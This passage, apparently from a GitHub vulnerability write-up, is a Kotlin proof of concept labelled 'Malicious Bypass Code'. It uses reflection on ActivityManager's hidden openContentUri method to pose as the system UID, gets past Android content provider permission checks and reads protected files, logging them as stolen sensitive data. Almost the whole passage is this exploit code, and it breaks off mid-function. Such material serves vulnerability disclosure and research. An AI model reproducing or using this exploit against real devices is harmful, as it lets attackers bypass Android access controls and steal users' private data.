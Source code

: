 ```kotlin
```

**Malicious Bypass Code:**
```kotlin
// MALICIOUS: System context spoofing to bypass security checks
class SystemContextSpoofer {
    fun bypassSecurityChecks(context: Context, targetUri: String): Boolean {
        return try {
            // Method 1: Normal call (BLOCKED by security checks)
            Log.d("BYPASS_ATTEMPT", "Trying normal access...")
            val normalResult = context.contentResolver.openFile(
                Uri.parse(targetUri), "r", null
            )
            normalResult?.close()
            Log.d("BYPASS_RESULT", "Normal access: SUCCESS (unexpected)")
            true
        } catch (e: SecurityException) {
            Log.d("BYPASS_RESULT", "Normal access: BLOCKED (expected)")
            
            // Method 2: System context spoofing (BYPASS security checks)
            Log.d("BYPASS_ATTEMPT", "Trying system context spoofing...")
            performSystemContextSpoofing(targetUri)
        }
    }
    
    private fun performSystemContextSpoofing(targetUri: String): Boolean {
        return try {
            // ATTACK: Use IActivityManager to spoof system context
            val activityManager = ActivityManager::class.java
            val getService = activityManager.getDeclaredMethod("getService")
            val service = getService.invoke(null)
            
            val openContentUri = service.javaClass.getDeclaredMethod(
                "openContentUri", String::class.java
            )
            
            // SPOOFED: Provider thinks we're system UID 1000
            val result = openContentUri.invoke(service, targetUri) as ParcelFileDescriptor?
            
            if (result != null) {
                Log.d("SYSTEM_SPOOFED", "SUCCESS: System context bypass worked!")
                Log.d("SYSTEM_SPOOFED", "File descriptor obtained: ${result.fd}")
                
                // Read sensitive data with spoofed system privileges
                val fileContent = readSensitiveContent(result)
                Log.d("SENSITIVE_DATA_STOLEN", "Content: $fileContent")
                
                result.close()
                return true
            }
            false
        } catch (e: Exception) {
            Log.e("BYPASS_ERROR", "System spoofing failed", e)
            false
        }
    }
    
    private fun readSensitiveContent(parcelFd: ParcelFileDescriptor): String {
        return try {
            val inputStream = ParcelFileDescriptor.AutoCloseInputStream(parcelFd)
            inputStream.bufferedReader().readText()
        } catch (e: Exception) {
            "Failed to read content: ${e.message}"
        }
```